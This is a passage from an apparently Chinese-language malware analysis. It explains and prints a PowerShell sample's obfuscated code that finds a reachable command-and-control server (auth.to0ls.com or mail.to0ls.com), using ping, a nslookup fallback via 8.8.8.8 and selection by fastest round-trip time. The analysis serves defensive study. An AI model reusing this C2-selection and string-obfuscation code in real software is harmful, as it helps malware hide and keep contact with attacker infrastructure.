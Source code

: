 ```powershell linenums="19"
}
```

31-106 行通过 ping 检查可以连接的 C2 服务器：

- 域名包括 `auth[.]to0ls.com` 和 `mail[.]to0ls[.]com`，使用字符串拼接混淆
- 如果 ping 失败，尝试使用 nslookup 和 DNS 服务器 `8.8.8.8` 解析域名
- 对可用的服务器进行多次 ping 测试，计算平均响应时间，最终选择一个响应最快的服务器

```powershell linenums="31"
$pin = new-object system.net.networkinformation.ping
$se=@((('au'+'th.'+'to0l'+'s.c'+'om')),(('mail.to'+'0l'+'s.co'+'m')))
$avgs = @()
$nic = ('au'+'th.'+'to0l'+'s.c'+'om')
$tmp = 0
$dtflag = $True
$tmp = ($pin.send($se[0])).RoundtripTime
if ($tmp -ne 0){
    $dtflag = $True
}else{
    $tmp = ($pin.send($se[1])).RoundtripTime
    if ($tmp -ne 0){
        $dtflag = $False
        $nic = $se[1]
    }else{
        for($i=0;$i -le 1;$i++){
            [string]$nslookup = &nslookup.exe $se[$i] 8.8.8.8
            $nslookup = $nslookup.replace("8.8.8.8","xxxxxxxx")
            $pattern="(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)"
            if($nslookup -match $pattern){
                $se[$i] = $matches[0]
            }else{
                $se[$i] = "8.8.8.8"
            }
        }
        if(!($se[0].contains("8.8.8.8")) -and !($se[1].contains("8.8.8.8"))){
            if($se[0].contains($se[1])){
                $nic = $se[0]
                $dtflag = $False
            }else{
                $dtflag = $True
            }
        }elseif($se[0].contains("8.8.8.8")){
            $nic = $se[1]
            $dtflag = $False
        }else{
            $nic = $se[0]
            $dtflag = $False
        }
    }
}
if($dtflag){
    for($i=0;$i -le 1;$i++){
        $sum = 0
        $count = 0
        for($j=1;$j -le 4;$j++){
            $tmp = ($pin.send($se[$i])).RoundtripTime
            if ($tmp -ne 0){
                $count += 1
            }
            $sum += $tmp
        }
        if ($count -ne 0){
```